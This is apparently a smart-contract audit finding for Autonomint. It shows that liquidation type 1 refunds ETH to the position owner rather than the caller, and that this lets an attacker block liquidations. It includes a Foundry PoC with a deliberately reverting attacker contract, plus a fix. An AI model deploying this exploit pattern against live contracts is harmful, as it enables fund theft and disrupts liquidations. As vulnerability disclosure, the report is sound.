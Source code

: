 Shallow Coral Kookaburra

Medium

# Liquidation type 1 incorrectly refunds to `user` instead of `msg.sender` allowing `user` to DoS liquidations of his positions

### Summary

When a liquidation of type 1 occurs, the unused `ETH` should be refunded to the `msg.sender` (the admin in this case), however, it refunds incorrectly to the `user` address. This allows user to steal those funds, or to DoS the liquidation by reverting the call.

### Root Cause

In `BorrowLiquidation::liquidationType1` there is a function used to know how much funds will be used from one chain and from the other:
[borrowLiquidation.sol#L227-L234](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowLiquidation.sol#L227-L234)
```solidity
// calculate the amount of usda to get from Other chains
uint256 liqAmountToGetFromOtherChain = BorrowLib.getLiquidationAmountProportions(
        liquidationAmountNeeded,
        cds.getTotalCdsDepositedAmount(),
        omniChainData.totalCdsDepositedAmount - omniChainData.downsideProtected,
        cds.totalAvailableLiquidationAmount(),
        omniChainData.totalAvailableLiquidationAmount
);

```

If `liqAmountToGetFromOtherChain` is zero, then `msg.value` won't be used and will be sent back to the admin (`msg.sender`). However, it sends `msg.value` to the `user`, which allows user to steal those funds, or to DoS the liquidation by reverting the call.
[borrowLiquidation.sol#L302-L305](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowLiquidation.sol#L302-L305)
```solidity
if (liqAmountToGetFromOtherChain == 0) {
		(bool sent, ) = payable(user).call{value: msg.value}("");
		require(sent, "Failed to send Ether");
}
```

### Internal pre-conditions

- Liquidation type 1 called on a position with `borrowingHealth < 0.8`
- The liquidation amount to get from other chain is zero

### External pre-conditions

None

### Attack Path

- Malicious user deploys a contract that will use to call `Borrowing::depositTokens` to have a position opened.
- The deployed contract implements a `receive` function that revert, and another function to withdraw `USDa`.

### Impact

 - Funds lost
 - DoS in liquidation type 1 for all `user` positions (even though position should be liquidated, it is not)

### PoC

Add the following PoC to `test/foundry/Borrowing.t.sol`:

```solidity
    function test_PoC_DoSLiquidationType1ForUser() public {
        uint256 ETH = 1;
        uint24 ethPrice = 388345;
        uint8 strikePricePercent = uint8(IOptions.StrikePrice.FIVE);
        uint64 strikePrice = uint64(ethPrice + (ethPrice * ((strikePricePercent * 5) + 5)) / 100);
        uint128 usdtToDeposit = uint128(contractsB.cds.usdtLimit());
        uint256 liquidationAmount = usdtToDeposit / 2;

        // deposit in CDS so there is back funds for the USDa
        address cdsDepositor = makeAddr("depositor");
  
        {
            vm.startPrank(cdsDepositor);

            contractsB.usdt.mint(cdsDepositor, usdtToDeposit);
            contractsB.usdt.approve(address(contractsB.cds), usdtToDeposit);
            vm.deal(cdsDepositor, globalFee.nativeFee);
            contractsB.cds.deposit{value: globalFee.nativeFee}(
                usdtToDeposit, 0, true, uint128(liquidationAmount), 150000
            );
  
            vm.stopPrank();
        }
  
        DoSLiquidation attacker = new DoSLiquidation(address(contractsB.borrow));

        {
            vm.startPrank(USER);
            uint256 amountDeposit = 1 ether;
            vm.deal(USER, globalFee.nativeFee + amountDeposit);

            attacker.deposit{value: globalFee.nativeFee + amountDeposit}(
                ethPrice, ETH, amountDeposit, strikePrice, ETH_VOLATILITY
            );
  
            vm.stopPrank();
        }

        vm.warp(block.timestamp + 25920);
        vm.roll(block.number + 2160);

        ethPrice -= 100000; // eth price drops from ~3.8K to ~2.8K
        
        {
            // liquidate
            address admin = contractsB.borrow.admin();
            uint64 index = 1;

            vm.startPrank(admin);  
            vm.deal(admin, globalFee.nativeFee);

            vm.expectRevert();
            contractsB.borrow.liquidate{value: globalFee.nativeFee}(
                address(attacker), index, ethPrice, IBorrowing.LiquidationType.ONE
            );

            vm.stopPrank();
        }
    }
}
 
import {BorrowingTest} from "../../contracts/TestContracts/CopyBorrowing.sol";

contract DoSLiquidation {
    BorrowingTest borrowing;

    constructor(address _borrowing) {
        borrowing = BorrowingTest(_borrowing);
    }

    function deposit(uint24 ethPrice, uint256 asset, uint256 amount, uint64 strikePrice, uint256 ethVolatility)
        public
        payable
    {
        borrowing.depositTokens{value: msg.value}(
            ethPrice,
            uint64(block.timestamp),
            IBorrowing.BorrowDepositParams(
                IOptions.StrikePrice.FIVE, strikePrice, ethVolatility, IBorrowing.AssetName(asset), amount
            )
        );
    }

    receive() external payable {
        revert();
    }
}
```

To run the test: 
```bash
forge test --fork-url https://mainnet.mode.network/ --mt test_PoC_DoSLiquidationType1ForUser
```

### Mitigation

In [borrowLiquidation.sol#L302-L305](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowLiquidation.sol#L302-L305):
```diff
if (liqAmountToGetFromOtherChain == 0) {
-		(bool sent, ) = payable(user).call{value: msg.value}("");
+       (bool sent, ) = payable(msg.sender).call{value: msg.value}("");
		require(sent, "Failed to send Ether");
}
```